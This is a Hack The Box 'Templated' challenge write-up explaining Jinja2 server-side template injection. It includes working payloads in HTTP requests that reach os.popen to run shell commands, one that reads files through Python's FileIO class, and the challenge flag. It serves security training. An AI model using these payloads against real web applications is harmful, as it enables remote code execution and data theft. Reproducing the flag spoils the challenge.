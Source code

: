 # [Templated](https://app.hackthebox.com/challenges/templated)

## Solutions

detected python jinja template in the index page.

### Solution 1

1. detect template engine:
    ![detect-template.png](./img/challenge-1-detect-template.png)

2. prepare payload:

    ```http
    GET /{{"abc".__class__.__base__.__subclasses__()[83].__init__.__globals__['sys'].modules['os'].popen("ls").read()}} HTTP/1.1
    ```

    ![pic-2.png](./img/challenge-1-pic-2.png)

    - "abc"
    - "abc".\_\_class\_\_: &lt;class 'str'&gt;
    - "abc.\_\_class\_\_.\_\_base\_\_": &lt;class 'object'&gt;
    - bruteforce at the number 83, there are many classes other than 83 that can do this.

3. get flag:

```http
GET /{{"abc".__class__.__base__.__subclasses__()[83].__init__.__globals__['sys'].modules['os'].popen("cat%20flag.txt").read()}} HTTP/1.1
```

![get-flag.png](./img/challenge-1-get-flag.png)

### Solution 2

```http
GET /{{"abc".__class__.__base__.__subclasses__()[101].__subclasses__()[0].__subclasses__()[0]('flag.txt').read()}} HTTP/1.1
```

- "abc"
- "abc".\_\_class\_\_: &lt;class 'str'&gt;
- "abc.\_\_class\_\_.\_\_base\_\_": &lt;class 'object'&gt;
- "abc.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_\[101\]": &lt;class '\_io.\_IOBase'&gt;
- "abc.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_\[101\].\_\_subclasses\_\_()\[0\]": &lt;class '\_io.\_RawIOBase'&gt;
- "abc.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_\[101\].\_\_subclasses\_\_()\[0\].\_\_subclasses\_\_()\[0\]": &lt;class '\_io.FileIO'&gt;

Flag: HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}

## References

- <https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/>
